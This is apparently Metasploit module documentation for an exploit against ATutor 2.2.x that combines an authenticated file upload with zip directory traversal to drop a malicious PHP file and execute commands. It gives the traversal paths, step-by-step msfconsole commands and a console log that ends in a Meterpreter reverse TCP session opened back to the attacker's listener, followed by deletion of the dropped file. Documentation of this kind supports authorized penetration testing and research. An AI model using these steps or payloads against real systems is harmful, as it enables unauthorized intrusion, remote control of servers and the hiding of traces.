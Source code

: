 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability together with a directory traversal
flaw in ATutor versions 2.2.4, 2.2.2 and 2.2.1 in order to execute arbitrary commands.

This module first authenticates to ATutor, using a randomly generated token to get around the front end JavaScript verification
being used by the server. Next, the module generates a zip file containing a malicious PHP file.
The zip archive takes advantage of a directory traversal vulnerability that will cause the target to drop the PHP file
in the root server directory (`htdocs` for Windows and `html` for Linux targets) when unpacking the archive.
For Windows targets, the module assumes that the target server uses XAMPP.
However, users can override this default by setting a custom file traversal path.
The PHP file contains an encoded payload that allows for remote command execution on the target server.
The zip archive can be uploaded via two vectors, the `Import New Language` function and the `Patcher` function.
The module first uploads the archive via `Import New Language` and then attempts to execute the payload
via an HTTP GET request to the PHP file in the root server directory.
If no session is obtained, the module creates another zip archive, uploads it via the `Patcher` function
and then attempts to execute the payload the same way as before. If a session is obtained, the module automatically
attempts to remove the malicious PHP file from the present working directory.

The module is compatible with both Windows and Linux targets. Users can specify a target OS, or use the `Auto` target option.
In the latter case, the module will try to detect the target OS based on the `Server` header set by the target
in its response to an HTTP request.

The module requires valid credentials for an ATutor account with admin privileges.
It has been successfully tested against ATutor 2.2.4 running on a Windows 10 machine that used XAMPP.
Vulnerable software can be downloaded here: https://sourceforge.net/projects/atutor/files/latest/download.
ATutor is no longer being maintained and version 2.2.4 was the last release.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/atutor_upload_traversal`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ATutor account]`
6. Do: `set PASSWORD [password for the ATutor account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Targets

```
Exploit targets:

   Id  Name
   --  ----
   0   Auto
   1   Linux
   2   Windows

```


## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the upload path to the root server directory.
It is used to make sure the malicious PHP is dropped in the root server directory when the zip being uploaded to the target
is unpacked on the server side. The default value for Windows targets is `..\\..\\..\\..\\..\\../xampp\\htdocs\\`.
This assumes the target uses XAMPP, as recommended in the ATutor documentation.
The default value for Linux targets is `../../../../../../var/www/html/`.

### PASSWORD
The password for the ATutor account to authenticate with. This option is required.

### TARGETURI
The base path to ATutor. The default value is `/ATutor/`.

### USERNAME
The username for the ATutor account to authenticate with. This option is required.

### WfsDelay
The number of seconds to wait for a session to be created. This advanced option is used by the module to verify
if exploitation via the `Import New Language` function succeeded. The default value is 3.

## Scenarios
### ATutor 2.2.4 running on Windows 10 (XAMPP)
```
msf exploit(multi/http/atutor_upload_traversal) > show options
                                                                                                                  
Module options (exploit/multi/http/atutor_upload_traversal):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FILE_TRAVERSAL_PATH                   no        Traversal path to the root server directory. Default for Windows targets: `..\..\..\..\..\../xampp\htdocs\`. Linux Default: `../../../../../../var/www/html/.`
   PASSWORD             root             yes       Password to authenticate with
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.12     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                80               yes       The target port (TCP)
   SRVHOST              0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080             yes       The local port to listen on.
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                               no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /ATutor/         yes       The base path to ATutor
   URIPATH                               no        The URI to use for this exploit (default is random)
   USERNAME             root             yes       Username to authenticate with
   VHOST                                 no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf exploit(multi/http/atutor_upload_traversal) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[+] Successfully authenticated as user 'root'. We have admin privileges!
[+] Identified the target OS as Win64.
[*] Setting payload to windows/x64/meterpreter/reverse_tcp.
[*] Attempting exploitation via the `Import New Language` function.
[*] Uploaded malicious PHP file vanwqiz.php.
[*] Executing payload via /vanwqiz.php/qnwgdu?=<payload>...
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (201283 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.12:49512) at 2020-06-12 13:50:47 -0400
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[+] Deleted vanwqiz.php

meterpreter >

```
